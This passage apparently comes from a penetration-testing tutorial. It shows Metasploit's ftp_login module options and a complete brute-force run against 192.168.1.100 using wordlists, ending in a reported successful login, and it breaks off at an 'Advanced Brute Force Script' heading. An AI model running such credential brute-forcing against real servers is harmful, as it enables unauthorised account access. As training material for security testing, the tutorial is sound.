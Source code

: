 ```bash
msf6 > use auxiliary/scanner/ftp/ftp_login
msf6 auxiliary(scanner/ftp/ftp_login) > show options

Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting                      Required  Description
   ----              ---------------                      --------  -----------
   BLANK_PASSWORDS   false                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                    yes       How fast to bruteforce, from 0 to 5
   PASSWORD                                           no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  no        File containing passwords, one per line
   RHOSTS                                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             21                                  yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                yes       Stop guessing when a credential works for a host
   THREADS           1                                   yes       The number of concurrent threads per host
   USERNAME                                           no        A specific username to authenticate as
   USERPASS_FILE                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/common_users.txt  no        File containing usernames, one per line
   VERBOSE           true                                 yes       Whether to print output for all attempts
```

### Performing Brute Force Attack

```bash
# Set target and wordlists
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/ftp/ftp_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/ftp/ftp_login) > set THREADS 5
msf6 auxiliary(scanner/ftp/ftp_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/ftp/ftp_login) > run

[+] 192.168.1.100:21 - Login Successful: sysadmin:654321
[*] Scanned 1 of 1 hosts (100% complete)
```

### Advanced Brute Force Script
